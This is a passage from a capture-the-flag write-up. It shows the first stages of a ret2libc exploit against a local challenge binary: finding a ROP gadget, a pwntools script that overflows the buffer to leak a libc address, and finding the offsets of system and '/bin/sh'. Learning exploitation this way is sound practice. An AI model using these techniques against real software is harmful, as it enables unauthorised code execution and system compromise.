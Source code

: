 #### ROPgadget
We need `rdi` register to pass the argument.

```sh
$> ROPgadget --binary chall_patched | grep "pop rdi"
0x0000000000400653 : pop rdi ; ret
```

#### Script to leak libc
```py
from pwn import *

# setup the binary
elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

p = process("./chall_patched")
context.binary = elf

# leaking puts@libc
payload = b'A' * 72 # padding
payload += p64(0x400653) # pop rdi ; ret
payload += p64(0x601018) # puts@GOT into the function argument
payload += p64(0x400490) # puts@plt
payload += p64(0x4005a7) # return to main so we can see output
p.sendline(payload) 

# puts@libc leak
p.recvuntil("make it!\n")
leak = u64(p.recvline().strip().ljust(8, b'\x00')) # in short, converts to 64 bit int
log.info("puts@libc leak address: " + hex(leak))
```

When u run the script you should see something like this:
```sh
[*] puts@libc leak address: 0x7fa463687bd0
```

#### Now we have a leak, so what?
Now that we have a leaked address, we use it to calculate for libc base address. This can help us find addresses of functions we want to use for our exploit.

In this case we want to call our own shell (`/bin/sh`) using `system` to grab the flag.

#### Finding offsets of functions

```sh
objdump -T libc.so.6 | grep -E "(system$|puts$)"
0000000000087bd0  w   DF .text  0000000000000226  GLIBC_2.2.5 puts
0000000000058740  w   DF .text  000000000000002d  GLIBC_2.2.5 system
```

```sh
strings -t x libc.so.6 | grep "/bin/sh"         
 1cb42f /bin/sh
```
